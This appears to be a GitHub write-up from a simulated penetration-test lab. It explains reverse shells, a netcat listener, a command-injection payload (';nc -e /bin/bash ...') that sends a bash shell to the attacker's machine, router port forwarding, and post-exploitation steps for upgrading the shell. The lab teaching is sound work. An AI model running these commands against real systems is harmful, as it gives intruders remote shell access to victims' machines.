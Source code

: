 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to understand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

- Attacker IP address is 192.168.2.72
- The subnet is set to 255.255.255.0

In order to be on the same network the first 3 octects have to match,because of the subnet mask. In this case all devices on this network start with 192.168.2.X. Most routers are usually set to be the first or last device on the network.

I put "192.168.2.1" in the firefox browser and it brings up a pfsense GUI. 

I then go to the firewall settings to enable a port forwarding rule on port 44554 to 192.168.2.72 (attacker box).

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/setup.gif)

### Catching A Reverse Shell

With everything set up on the attacking machine, including a listener and the appropriate port forwarding rule, we can initiate the attack. When we trigger the exploit (e.g., clicking a button), the target application will likely enter a processing or loading state. This indicates the payload has been delivered and the application is waiting for a response. Switching to our attacker terminal, we should see a new connection established from the victim's network. By running a system identification command (like "id"), we can gain some insight into the user privileges we might have obtained on the compromised system.

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/payload.gif)

### Upgrading Reverse Shell 
##### (allows tab complete, arrows keys, etc)(ONLY WORKS ON LINUX, use rlwrap in front of listener for windows)

#### Validate python or python3 on the machine
```bash
python -V
python3 -V
```
#### Make sure to use the correct version of python for next command!
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
SHELL=/bin/bash script -q /dev/null (if your machine doesn't have python)
```
#### Next, background the shell to start sending raw input, this bypasses your local interpreter (shell) and sends your keystrokes to the reverse shell (victim)
```
Ctrl + Z (background the shell)
stty raw -echo; fg
reset
```
If it asks what TERM to use, set it to **xterm-256color**, or whatever your attacker machine's $TERM is set to. 

### Validate Terminal Type
```
echo $TERM
export TERM=xterm-256color
echo $TERM
```
You should now be able to clear your terminal and use text editors like nano and vim.

### Validate Shell for User
```
echo $SHELL
export SHELL=/bin/bash
echo $SHELL
```
### Validate size of screen
```
echo $TERM && tput lines && tput cols (run on attacker)
stty rows 38 columns 116 (run on victim)
```
Note: you'll want to run the second command with numbers from the first command, so you're setting the victim's shell size to your local kali machine's shell size. 
This helps prevent wordwrap from distorting the shell and will help other tools like nano and vim work as expected.

Note2: It's possible to have a scenario where your shell and your nano/vim sizes don't align on a target. You can use the 'w' command to validate the size of the terminal through a guessing process.

You should now have a fully functional shell, where even sending a ^C (Ctrl + C, normally intended to stop processes) won't cause the shell to die. 
